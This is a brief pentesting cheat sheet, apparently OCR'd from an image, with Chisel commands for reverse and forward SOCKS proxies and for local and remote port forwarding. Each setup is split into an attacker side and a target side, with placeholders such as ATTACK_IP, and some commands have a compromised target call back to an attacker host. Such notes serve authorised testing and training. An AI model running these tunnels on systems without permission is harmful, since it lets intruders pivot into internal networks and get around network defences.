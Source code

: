 ### Chisel client/server --help

### Author: https://github.com/jpillora/chisel/releases

### Reverse SOCKS proxy

#### Attacker: ./chisel server -p LISTENING_PORT --reverse &

#### Target: ./chisel client ATTACK_IP:LISTEN_PORT R:SOCKS &

### Forward SOCKS proxy

#### Target: ./chisel server -p LISTEN_PORT --socks5

#### Attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

## TIP:

#### Set the port in the proxychains file. (SOCKS5)

#### If you use forward proxy, set the port to whichever one you opened.

### Local Port Forward

#### Target: ./chisel server -p LISTEN_PORT

#### Attacker: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### Remote Port Forward

#### Atttacker: ./chisel server -p LISTEN_PORT --reverse &

#### Target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

## TIP:

#### Also use jobs then kill %num for chisel backgrounf processes too.
